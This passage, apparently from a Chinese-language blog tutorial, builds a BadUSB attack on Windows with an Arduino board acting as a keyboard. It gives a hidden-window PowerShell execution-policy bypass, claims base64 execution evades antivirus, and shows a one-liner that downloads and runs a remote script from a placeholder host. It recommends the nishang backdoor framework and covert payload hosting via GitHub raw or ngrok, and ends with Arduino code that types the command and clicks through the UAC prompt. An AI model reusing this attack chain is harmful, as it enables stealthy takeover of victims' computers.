例如，我们可以在运行中输入：

```powershell
powershell -executionpolicy bypass -windowstyle hidden ping www.baidu.com  > d:\test.txt
```

可以看到test.txt内容如下：

>正在 Ping www.a.shifen.com [119.75.218.70] 具有 32 字节的数据:
>来自 119.75.218.70 的回复: 字节=32 时间=23ms TTL=53
>来自 119.75.218.70 的回复: 字节=32 时间=23ms TTL=53
>来自 119.75.218.70 的回复: 字节=32 时间=24ms TTL=53
>来自 119.75.218.70 的回复: 字节=32 时间=23ms TTL=53
>
>119.75.218.70 的 Ping 统计信息:
>    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
>往返行程的估计时间(以毫秒为单位):
>    最短 = 23ms，最长 = 24ms，平均 = 23ms


除此之外，还可以直接从base64编码执行，这样可以直接bypass antivirus software。这是一种更为强大的运行姿势。

### 远程执行
事实上，bypass的目的真正是为了执行来自远程服务器的脚本。这里有一个用法：

```powershell
powershell -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString('http://your.site/file.ps1');
```
这里牵扯到了powershell的强大之处，其可以直接创建对象。上面的意思是从下载一个远程脚本并执行。显然远程脚本相对于把payload写在一行更加优雅，而且更加灵活。最重要的原因还是此arduino开发板的存储空间太小，并不能容纳太长的脚本。

这里推荐一个powershell的渗透框架：nishang

项目地址：https://github.com/samratashok/nishang

nishang的强大之处在于其几乎可以实现一个后门可以实现的所有。

据笔者了解，metasploit也支持生产powershell的payload了。

公网上的powershell脚本可以通过github的raw浏览服务、一些在线的文本存储服务，甚至是用ngrok做一个web服务器的映射来完成临时、隐蔽的发送。

### Bypass UAC
后续的代码如下,其中后面的部分是为了处理UAC，即一个弹出用户确认的对话框。
```c
    Keyboard.println("powershell -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString('http://your.site/file.ps1');");
    Keyboard.press(KEY_LEFT_CTRL);
    Keyboard.press(KEY_LEFT_SHIFT);


    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(500);


    Keyboard.press(KEY_RETURN);
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(500);
    Keyboard.press(KEY_RETURN);
    Keyboard.press(KEY_RETURN);
    delay(500);
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(2500);
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();

```